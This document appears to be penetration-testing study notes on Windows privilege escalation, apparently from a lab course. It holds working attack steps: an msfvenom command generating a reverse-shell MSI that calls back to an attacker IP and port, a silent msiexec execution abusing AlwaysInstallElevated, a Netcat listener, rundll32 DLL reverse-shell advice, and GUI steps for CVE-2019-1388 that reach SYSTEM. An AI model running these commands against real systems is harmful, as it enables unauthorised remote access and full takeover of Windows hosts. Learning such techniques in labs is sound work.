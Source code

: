 A binary such as rundll32.exe can be used to execute a DLL file. We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.

### Always Install Elevated
Can be set via Local Group Policy by setting Always install with elevated privileges to Enabled under the following paths:
- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

#### Enumerating Always Install Elevated Settings
```PowerShell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

```cmd.exe
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

#### Generating MSI Package
We can exploit this by generating a malicious `MSI` package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.
```Shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

#### Executing MSI Package
```cmd.exe
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```
Upload the MSI file to the target, start a Netcat listener on the attacking machine and execute the file

#### Catching Shell
```Shell
nc -lnvp 9443
```

### CVE-2019-1388

First right click on the `hhupd.exe` executable and select `Run as administrator` from the menu
![[Pasted image 20230110165520.png]]

Click on Show information about the publisher's certificate to open the certificate dialog. Here we can see that the `SpcSpAgencyInfo` field is populated in the` Details` tab.
![[Pasted image 20230110165629.png]]

Go back to the General tab and see that the `Issued by` field is populated with a hyperlink. Click on it and then click `OK`, and the certificate dialog will close, and a browser window will launch.
![[Pasted image 20230110165717.png]]

If we open Task Manager, we will see that the browser instance was launched as SYSTEM.
![[Pasted image 20230110165810.png]]
